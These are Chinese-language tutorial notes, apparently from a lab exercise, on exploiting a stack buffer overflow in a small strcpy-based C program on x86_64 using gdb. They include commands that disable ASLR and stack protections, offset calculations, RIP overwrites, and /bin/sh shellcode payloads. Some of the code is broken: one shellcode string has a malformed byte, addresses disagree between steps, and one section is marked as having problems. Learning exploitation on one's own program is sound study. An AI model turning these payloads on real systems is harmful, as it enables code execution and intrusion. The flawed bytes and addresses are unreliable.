$ cat /proc/sys/kernel/randomize_va_space 

$ sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"

# 栈溢出（gdb-tui）调试

## 函数调用 回顾

（若该函数有参数传入   则先进行参数入栈。一般从左到右）

```
1.call   xxxx  
入栈返回地址 ，即call指令的下一个地址（rip执行）并且跳转到  指令 xxxx


2.然后开始栈帧调整
push ebp 			；保存旧栈帧的底部

mov ebp，esp   ；设置新栈帧的底部（栈帧切换）

sub esp，xxx    ；设置新的栈帧的顶部（抬高栈顶，为新栈帧开辟空间）


3.局部变量入栈


4.调用结束后

函数返回

保存返回值：通常将函数的返回值保存在寄存器 EAX 中

弹出当前栈帧，恢复上一个栈帧具体命令：

add	esp, xxx 	;降低栈顶，回收当前的栈帧			

pop ebp			;将上一个栈帧底部位置恢复到 ebp		

Retn			; 这条指令有两个功能	：
						a)弹出当前栈顶元素，即弹出栈帧中的返回地址。 至此栈帧恢复工作完成 。
						b)让处理器跳转到弹出的返回地址，恢复调用前的代码区
```


## 1.x86和x86_64的区别

​		主要区别就是内存地址的大小。不过即便 **x86_64** 内存地址有64位长用户空间也只能使用前47位，要牢记这点，因为当你指定一个大于0x00007fffffffffff的地址时会抛出一个异常。那也就意味着0x4141414141414141会抛出异常而0x0000414141414141是安全的。

​		事实上还有很多其他的不同但是考虑到本文的目的不了解所有的差异也没关系。

## 2.漏洞代码片段

```
//bof.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(int argc, char **argv) {
char buffer[256];
if(argc != 2) {
exit(0);
}
printf("%p\n", buffer);
strcpy(buffer, argv[1]);
printf("%s\n", buffer);
return 0;
}

```

可以用gcc编译上述代码。

```
gcc -m64 bof.c -o bof -z execstack -fno-stack-protector -g
//-z 与关键字 execstack 一起直接传递给链接器。
//-fno-stack-protector -o test test.c 禁用栈保护
```

代码分析：

```
溢出发生在 strcpy，将main函数调用前入栈的rip的值覆盖
触发发生在main函数调用结束，ret返回时弹出溢出的rip 并且执行。
```


## 3.触发溢出 

首先确认一下确实可以让这个进程崩溃。

```
./bof $(python -c 'print "A" * 300)
```


首先观察strcpy后的栈的情况

```
gdb -tui bof 
layout asm 
b strcpy   			//在strcpy处下断点
r $(python -c 'print "A" * 300')
finish   			//将函数strcpy执行完毕
x/20xg $rsp   		//查 64 位程序内存信息
/* x 指令用于查看内存地址的值  具体看gdb调试文档
```



观察执行到ret时的寄存栈的情况



可以看到leave指令把rsp指向`0x7fffffffde98`。此时观察寄存器的值，

```
info reg
```



并观察rip中的值




在次单步执行时程序结束，但是没有控制rip，原因就是覆盖了太多位  

最大的地址是0x00007fffffffffff   而我们尝试用0x4141414141414141去溢出了。

## 0x04 控制RIP

​	用个小一点的缓冲区去溢出这样指向rsp的地址就会像`0x0000414141414141`一样了。

​	通过简单的数学运算就可以很轻松地算出我们缓冲区的大小。我们知道缓冲区开始于`0x7fffffffdd90`。Leave指令之后rsp将指向`0x7fffffffde98`。

```
0x7fffffffde98-0x7fffffffdd90 = 0x108 -> 十进制的264
```

因此，我们可以修改缓冲区

```
"A" * 264 + "B" * 6
```

此时rsp指向的地址应该像0x0000424242424242一样正常了。那样就能控制RIP。

```
gdb -tui bof 
layout asm 
b strcpy   			//在strcpy处下断点
run $(python -c 'print "A" * 264 + "B" * 6')
finish   			//将函数strcpy执行完毕
```

直接查看调用leave指令后的栈的情况



rsp指向0x7fffffffdeb8而0x7fffffffdeb8的内容就是0x0000424242424242。

接着再次单步进入，执行ret指令 。 如下图 ，rip变成了理想的值。



## 5. 跳入用户控制的缓冲区

​	只需要将rip改为缓冲区的开头,也就是在strcpy后`printf` 显示出来的值。

在改变传入的参数后，缓冲区的起始地址为‘`0x00007fffffffddb0`。通过 `gdb` 也可以很容易地重新获得这个值,只需在调用 `strcpy` 之后显示栈。



 重新构造缓冲区：

```
"A" * 264 + "\x7f\xff\xff\xff\xdd\xb0"[::-1]
```

因为是小端结构所以我们需要把内存地址反序。这就是python语句[::-1]所实现的。

然后gdb调试，确认rip是否为理想值

```
gdb -tui bof 
layout asm 
b strcpy   			//在strcpy处下断点
run $(python -c 'print "A" * 264 +"\x7f\xff\xff\xff\xdd\x10"[::-1]')
finish   			//将函数strcpy执行完毕
```



这是leave指令后的栈，上图中rsp指向`0x7fffffffdeb8`,而地址`0x7fffffffdeb8`的内容是`0x00007fffffffdd10`。最后`0x00007fffffffdd10`指向我们控制的缓冲区。

​	ret指令执行后，会将rsp中的内容   pop rip。如下图 rip指向0x00007fffffffdd10说明跳入了正确的位置。



## 6.执行shellcode

使用shellcode 打开shell

```
global _start
section .text
 
_start:
	; execve("/bin/sh", ["/bin/sh"], NULL)
	; rax = 0x3b, rdx= NULL, rdi = '//bin/sh', rsi = '//bin/sh'
	xor		rdx, rdx
	mov		qword rbx, '//bin/sh'		; 0x68732f6e69622f2f
	shr		rbx, 0x8
	push		rbx
	mov		rdi, rsp
	push		rax
	push		rdi
	mov		rsi, rsp
	mov		al, 0x3b
	syscall              
```


```
nasm -felf64 hello-world.asm -o hello-world.o   //汇编
ld hello-world.o -o hello-world					//链接
objdump -M intel -D hello-world | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s										//提取机器码
```


```
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

30个字节

构造缓冲区

```
$(python -c 'print "A" * 264 +"\x7f\xff\xff\xff\xde\x10"[::-1]')  原始
```

然后把shellcode接在开头  264-30=234

```
$(python -c 'print" \x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" +  "A" * 234 +"\x7f\xff\xff\xff\xde\x00"[::-1]')
```





## ALSR

aslr是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化，通过增加攻击者预测目的地址的难度，防止攻击者直接定位攻击代码位置，达到阻止溢出攻击的目的的一种技术。如今Linux，Windows等主流操作系统都已采用了该技术。


ALSR由 `/proc/sys/kernel/randomize_va_space` 决定，默认为2

```
0 - 表示关闭进程地址空间随机化

1 - 表示将mmap的基址，stack和vdso页面随机化。

2 - 表示在1的基础上增加栈（heap）的随机化。
```

要关闭ALSR，只需将`randomize_va_space`里面的内容改为0即可。

修改该文件不能直接用 `vi` 或者 `vim` 进行修改,也不能直接 `sudo echo 0 > /proc/sys/kernel/randomize_va_space`

使用此条命令即可关闭ALSR：`sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"`


# 栈溢出（gdb-gef）调试（有问题）

## 1.漏洞代码片段

```
//bof.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(int argc, char **argv) {
char buffer[256];
if(argc != 2) {
exit(0);
}
printf("%p\n", buffer);
strcpy(buffer, argv[1]);
printf("%s\n", buffer);
return 0;
}

```

可以用gcc编译上述代码。

```
gcc -m64 bof.c -o bof -z execstack -fno-stack-protector -g
//-z 与关键字 execstack 一起直接传递给链接器。
//-fno-stack-protector -o test test.c 禁用栈保护
```

代码分析：

```
溢出发生在 strcpy，将main函数调用前入栈的rip的值覆盖
触发发生在main函数调用结束，ret返回时弹出溢出的rip 并且执行。
```

$(python -c  'print "A" * 260 ')

## 2.更改RIP

```
gdb-gef bof 
b strcpy   			//在strcpy处下断点
run $(python -c  'print "A" * 260 ')
finish   			//将函数strcpy执行完毕
```

先确定缓冲区的大小，在strcpy完成后，查看rsp，可以看到起始地址`7fffffffde00`



在leave执行后再次查看rsp，因为下一步ret就会将rsp中的内容pop给rip，

所以这个地方的地址就是我们要 控制的地址，这个地址是`7fffffffdf08`



所以缓冲区的大小就是 df08-de00 =0x108 =264

```
 $(python -c  'print "A" * 264 + "\x7f\xff\xff\xff\xde\x00"[::-1]') ')
```

真正的shellcode  32 字节 ，剩余用A填充（264-32=232）

```
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
```

```
$(python -c 'print "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" +  "A" * 216+"\x7f\xff\xff\xff\xde\x10"[::-1]')
```






# 若溢出目标地址最后存在 00解决

可在shellcode 填充空指令，将改变溢出目标

# 栈溢出（gdb-gef）调试

## 1.漏洞代码片段

```
//bof.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(int argc, char **argv) {
char buffer[160]; //看情况自己分配
if(argc != 2) {
exit(0);
}
printf("%p\n", buffer);
strcpy(buffer, argv[1]);
printf("%s\n", buffer);
return 0;
}

```

可以用gcc编译上述代码。

```
gcc -m64 bof.c -o bof -z execstack -fno-stack-protector -g
//-z 与关键字 execstack 一起直接传递给链接器。
//-fno-stack-protector -o test test.c 禁用栈保护
```

代码分析：

```
溢出发生在 strcpy，将main函数调用前入栈的rip的值覆盖
触发发生在main函数调用结束，ret返回时弹出溢出的rip 并且执行。
```


## 2.更改RIP

```
gdb-gef bof 
b strcpy   			//在strcpy处下断点
run $(python -c  'print "A" * 260 ')
finish   			//将函数strcpy执行完毕
```

先确定缓冲区的大小，在strcpy完成后，查看rsp，可以看到起始地址`7fffffffde70`


在leave执行后再次查看rsp，因为下一步ret就会将rsp中的内容pop给rip，

所以这个地方的地址就是我们要 控制的地址，这个地址是`7fffffffdf18`


所以缓冲区的大小就是 df18-de70 =0xa8 =168

```
 $(python -c  'print "A" * 168 + "\x7f\xff\xff\xff\xde\x70"[::-1]')
```

如下图 可以看到rip更改成功


此时需要再次寻找shellcode的起始地址


真正的shellcode  32 字节 ，剩余用A填充（168-32=136）

```
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
```

```
$(python -c 'print "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" +  "A" * 136+"\x7f\xff\xff\xff\xde\xc0"[::-1]')
```


